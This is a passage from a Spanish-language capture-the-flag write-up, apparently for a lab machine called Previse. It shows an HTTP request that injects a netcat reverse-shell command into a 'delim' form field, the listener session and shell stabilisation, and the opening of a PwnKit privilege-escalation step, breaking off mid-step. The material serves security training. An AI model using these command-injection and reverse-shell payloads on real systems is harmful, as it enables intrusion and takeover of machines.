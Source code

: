 ```bash
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=p79kvpmandld75npavcn0cra88
Upgrade-Insecure-Requests: 1

"delim=comma+%26%26+nc+10.10.16.4+443+-e+/bin/bash  "
```
Nos ponemos a la escucha con una session de nc

```bash
# nc -vlnp 443                                                                                                                                                                                               1 ⚙
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.104] 41780

    # script /dev/null -c bash
Script started, file is /dev/null

    # www-data@previse:/var/www/html$ ^Z
zsh: suspended  nc -vlnp 443

# stty raw -echo;fg                                                                                                                                                                                    148 ⨯ 2 ⚙
[1]  - continued  nc -vlnp 443
                              reset xterm

    # www-data@previse:/var/www/html$ export TERM=xterm
    # www-data@previse:/var/www/html$ export SHELL=bash
```

Enumeracion de la Maquina y Aplicacion de Una escalada De Privilegios No Convecional

```bash
www-data@previse:/tmp$ uname -a 
Linux "previse 4.15.0-151-generic" #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

# Escalada Alternativa a Root //**PwnKit**//

Nos copiamos el siguiente Repositorio --> `# git clone https://github.com/ly4k/PwnKit.git`
Procdemos a montarnos un serividor con python3 para compartir el recurso `PwnKit` a la maquina victima
